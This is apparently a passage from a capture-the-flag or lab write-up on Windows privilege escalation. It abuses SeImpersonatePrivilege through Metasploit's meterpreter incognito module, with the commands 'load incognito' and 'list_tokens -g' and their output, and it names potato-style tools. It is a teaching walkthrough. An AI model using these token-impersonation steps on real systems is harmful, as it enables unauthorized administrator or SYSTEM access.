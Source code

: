 ```
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

In this list, we can note that the **SeImpersonatePrivilege** privilege is enabled for our user. With this privilege, you permit programs that run on behalf of that user to impersonate a client.
So, you can get a SYSTEM token from a Windows service (DCOM) force to perform an NTLM authentication against the exploit and then successfully execute a process as SYSTEM. There are many ways to exploit this vulnerability, you can use juicy-potato, SweetPotato, RogueWinRM, PrintSpoofer.

But in this task the **incognito** module of Metasploit is used.

#### 2. Incognito Module
> You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. Enter: load incognito to load the incognito module in metasploit. Please note, you may need to use the use incognito command if the previous command doesn't work. Also ensure that your metasploit is up to date.

We load the incognito module, by running the command ```load incognito```:
```
meterpreter > load incognito
Loading extension incognito...Success.
```

#### 3. Impersonate Token
> To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?

We use the command ```list_tokens -g``` to retrieve all the available token:
```
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
```